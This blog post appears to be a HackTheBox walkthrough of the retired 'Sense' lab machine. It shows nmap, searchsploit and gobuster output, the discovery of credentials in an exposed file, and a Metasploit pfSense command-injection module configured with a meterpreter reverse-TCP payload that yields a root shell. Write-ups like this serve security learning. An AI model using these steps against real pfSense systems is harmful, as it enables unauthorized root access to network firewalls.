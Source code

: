 ```yaml
---
layout: post
title: "HackTheBox Sense Walkthrough"
date: 2018-03-24
tags: HackTheBox, Walkthrough
---
```


With Sense now being retired, I can go ahead and post my first "on time" hackthebox walkthrough.

#### Enumeration
Starting with Nmap, as always...
```
# Nmap 7.60 scan initiated Mon Mar 19 07:51:25 2018 as: nmap -p- -sC -sV -oA sense_full 10.10.10.60
Nmap scan report for 10.10.10.60
Host is up (0.049s latency).
Not shown: 65533 filtered ports
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 19 07:53:26 2018 -- 1 IP address (1 host up) scanned in 121.24 seconds
```
So, we have a webserver. Navigating to it in Firefox we find that it is running PFSense:

![PFSense](https://github.com/mac61/mac61.github.io/blob/master/assets/img/blog_images/sense/pfsense.jpg?raw=true)

A quick searchsploit revealed quite a few interesting vulnerabilities. However, all of the
apparently useful exploits require authentication.

```
searchsploit pfsense
---------------------------------------------------------------------------------------------- ----------------------------------
 Exploit Title                                                                                |  Path
                                                                                              | (/usr/share/exploitdb/)
---------------------------------------------------------------------------------------------- ----------------------------------
pfSense - 'interfaces.php?if' Cross-Site Scripting                                            | exploits/hardware/remote/35071.txt
pfSense - 'pkg.php?xml' Cross-Site Scripting                                                  | exploits/hardware/remote/35069.txt
pfSense - 'pkg_edit.php?id' Cross-Site Scripting                                              | exploits/hardware/remote/35068.txt
pfSense - 'status_graph.php?if' Cross-Site Scripting                                          | exploits/hardware/remote/35070.txt
pfSense - Authenticated Group Member Remote Command Execution (Metasploit)                    | exploits/unix/remote/43193.rb
pfSense 2 Beta 4 - 'graph.php' Multiple Cross-Site Scripting Vulnerabilities                  | exploits/php/remote/34985.txt
pfSense 2.0.1 - Cross-Site Scripting / Cross-Site Request Forgery / Remote Command Execution  | exploits/php/webapps/23901.txt
pfSense 2.1 build 20130911-1816 - Directory Traversal                                         | exploits/php/webapps/31263.txt
pfSense 2.2 - Multiple Vulnerabilities                                                        | exploits/php/webapps/36506.txt
pfSense 2.2.5 - Directory Traversal                                                           | exploits/php/webapps/39038.txt
pfSense 2.3.1_1 - Command Execution                                                           | exploits/php/webapps/43128.txt
pfSense 2.3.2 - Cross-Site Scripting / Cross-Site Request Forgery                             | exploits/php/webapps/41501.txt
pfSense Community Edition 2.2.6 - Multiple Vulnerabilities                                    | exploits/php/webapps/39709.txt
pfSense Firewall 2.2.5 - Config File Cross-Site Request Forgery                               | exploits/php/webapps/39306.html
pfSense Firewall 2.2.6 - Services Cross-Site Request Forgery                                  | exploits/php/webapps/39695.txt
pfSense UTM Platform 2.0.1 - Cross-Site Scripting                                             | exploits/freebsd/webapps/24439.txt
---------------------------------------------------------------------------------------------- ----------------------------------
```

PFsense's default credentials (admin:pfsense) didn't work. Attempting to brute force the login ended with my ip being blacklisted. Apparently that is not the way we're supposed to get in...

#### Web Content Discovery
Considering that we have a RCE Metasploit vulnerability and we got blacklisted trying to brute force the login, we probably need to find some credentials. After a lot gobuster scans, I finally found what I needed.
```
Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.60/
[+] Threads      : 50
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Status codes : 301,302,307,403,200,204
[+] Extensions   : .txt
[+] Follow Redir : true
[+] Expanded     : true
=====================================================
http://10.10.10.60/changelog.txt (Status: 200)
http://10.10.10.60/tree (Status: 200)
http://10.10.10.60/installer (Status: 200)
http://10.10.10.60/system-users.txt (Status: 200)
http://10.10.10.60/%7echeckout%7e (Status: 403)
=====================================================
```
Changelog.txt told us that 2 of 3 vulnerabilities. It definitely sounds like we're on the right track with a pfsense vulnerability.

system-users.txt revealed a username (rohit) and a hint at the password: "password: company defaults."

Logging in with rohit:pfsense granted access to pfsense!

#### Exploitation
Now that we had usable credentials, we could go ahead and try out that MSF module.
```
Module options (exploit/unix/http/pfsense_graph_injection_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  pfsense          yes       Password to login with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST     10.10.10.60      yes       The target address
   RPORT     443              yes       The target port (TCP)
   SSL       true             no        Negotiate SSL/TLS for outgoing connections
   USERNAME  rohit            yes       User to login with
   VHOST                      no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.X.X      yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```
And we get dropped into Sense as root!
```
meterpreter > getuid
Server username: root (0)
```
#### Closing Thoughts
Overall, I'd consider Sense a *** box. I'm generally not a fan of VMs that require the use of a specific list to find critical information about the machine (in this case the username). However, because I was stuck at that stage for so long, I spent a lot of effort formalizing my web content discovery process, and in retrospect that was a great learning experience. It was quite frustrating at the time though... Also, while you needed to use the right list for content discovery, it was not an unusual list. I can't really complain about that too much.

It is nice that Sense was a realistic machine. Getting blacklisted is a great touch, and I'm generally more a fan of boxes that are realistic than CTF style.